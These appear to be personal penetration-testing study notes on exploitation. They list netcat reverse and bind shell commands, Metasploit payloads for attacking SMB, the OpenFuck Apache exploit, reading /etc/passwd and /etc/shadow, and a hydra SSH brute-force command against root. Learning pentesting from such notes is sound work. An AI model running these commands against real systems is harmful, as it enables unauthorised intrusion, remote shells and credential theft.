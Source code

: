 # 3 - exploitation

    #netcat 
        https://www.hackingtutorials.org/networking/
        order matters here
        reverse shell
        attackbox(atb): `nc -lvp 4444`
        tgt: `nc <atb ip> -e /bin/sh`
            for windows use `command.exe` instead of `/bin/sh`
        
        bind shell (can bypass a firewall)
        tgt: `nc -lvp 4444 -e /bin/sh`
        atb: `nc <tgt ip> 4444`
        
            
    #root with metasploit
        stage/non-stage payloads 
            payloads are exploits
            `staged` send payload in stages can be less stable (more`/`)
                `windows/meterpreter/reverse_tcp`
            `non-stage` sends entire payload at once don't always work
                `windows/meterpreter_reverse_tcp`
            if one type don't work than try the other
            
        #attacking SMB (ports 139,445)
            find a module that fits linux and the smb versions such as
                `trans2open` witch works with Samba 2.2.x
            if it don't work think about changing the payload with:
                `set payload lin` then tab complete and double tab for a 
                list of payloads. If you WERE using a staged, try switching
                to a non-staged such as `linux/x86/shell_reverse_tcp`
            from `nmap -A` look for Host script results > smb-secuirty-mode >
                message_signing: disabled or message_signing: enabled but
                    not required - is super broken!!! 
            `scanner/smb/smb_version` in metaploit to id smb
                
    #root with OpenFuck on Apache
        `./OpenFuck`
            to see all all options, then pick on that matches:
                os, and apache version
        `./OpenFuck 0x6b <tgt ip> -c 40`
        if it works it will download software on the box and then you 
            get a shell
        `cat /ect/passwd` to check for users, they start at 500
        `cat /etc/shadow` to see the password hashes
        
    #brute force passwords
        super load but during a pentest we want to get caught
        in a read team assesment we don't
        #hydra
            `hydra -l root -P /usr/share/wordlist/metasploit/unix_passwords.txt ssh://<tgt ip> -t 4 -V`
            ssh brute force with user root, -l, passwords from list -P, 4
                threads at a time -t 4, and verbosisty -V
            `hydra-wizard` for prompting and command building
          